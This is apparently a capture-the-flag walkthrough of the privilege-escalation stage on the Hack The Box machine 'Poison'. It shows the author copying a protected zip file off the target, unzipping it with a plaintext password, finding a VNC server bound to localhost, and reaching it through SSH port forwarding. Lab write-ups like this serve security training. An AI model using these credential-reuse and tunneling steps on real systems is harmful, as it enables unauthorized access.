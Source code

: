 # 15 - PrivEsc

# secret.zip
```bash
charix@Poison:~ % ls -l                                                                                              
total 48                                                                                                                                                                                                                                                                                                
-rw-r-----  1 root    charix   166 Mar 19  2018 secret.zip                                                                                                                                                                                   
-rw-r-----  1 root    charix    33 Mar 19  2018 user.txt                                                                                                                                                                                     
```


# Let us move that secret.zip file to our box and unzip it

```bash
┌──(kali㉿kali)-[10.10.14.6/23]-[~/htb/poison/server]
└─$ scp charix@10.10.10.84:secret.zip .
┌──(kali㉿kali)-[10.10.14.6/23]-[~/htb/poison/server]
└─$ unzip secret.zip
Password:Charix!2#4%6&8(0
┌──(kali㉿kali)-[10.10.14.6/23]-[~/htb/poison/server]
└─$ file secret
secret: Non-ISO extended-ASCII text, with no line terminators
┌──(kali㉿kali)-[10.10.14.6/23]-[~/htb/poison/server]
└─$ cat secret
[|Ֆz!┌
```
This doesn't mean anything


# linpeas.sh

```sql
[+] Active Ports
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports
tcp4       0      0 localhost.smtp         *.*                    LISTEN
tcp4       0      0 *.http                 *.*                    LISTEN
tcp6       0      0 *.http                 *.*                    LISTEN
tcp4       0      0 *.ssh                  *.*                    LISTEN
tcp6       0      0 *.ssh                  *.*                    LISTEN
tcp4       0      0 localhost.5801         *.*                    LISTEN
tcp4       0      0 localhost.5901         *.*                    LISTEN
```

# Xvnc is installed on the box
```bash
charix@Poison:~ % ps aux 
root   529   0.0  0.9  23620  8964 v0- I    18:27    0:00.03 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/passwd -rfbport 5901 -localhost -nolisten tcp :1
root   540   0.0  0.7  67220  7056 v0- I    18:27    0:00.02 xterm -geometry 80x24+10+10 -ls -title X Desktop
```

Xvnc is the X VNC (Virtual Network Computing) server. It is based on a standard X server, but it has a "virtual" screen rather than a physical one. X applications display themselves on it as if it were a normal X display, but they can only be accessed via a VNC viewer - see vncviewer(1).

The problem is xvnc is only locally available we need a way of accessing that port from our box.

# SSH tunneling

```bash
$ ssh -L5901:localhost:5901 -L5801:localhost:5801 -l charix 10.10.10.84
```
This will open ports 5901 and 5801 on our box and send every traffic on these ports to the otherside of the ssh connection and the receiver will redirect the traffic to either 5901 or 5801  on localhost.

Once the connection is established, we can check these ports

```bash
┌──(kali㉿kali)-[10.10.14.6/23]-[~/htb/poison]
└─$ curl localhost:5801
<HEAD><TITLE>File Not Found</TITLE></HEAD>
<BODY><H1>File Not Found</H1></BODY>
┌──(kali㉿kali)-[10.10.14.6/23]-[~/htb/poison]
└─$ curl localhost:5901
curl: (1) Received HTTP/0.9 when not allowed
```

# Xvncviewer

We should now be able to use xvncviewer, however there is something missing.  A password is required, let's give  **secret** a chance.

![](vx_images/2170365787213.png)
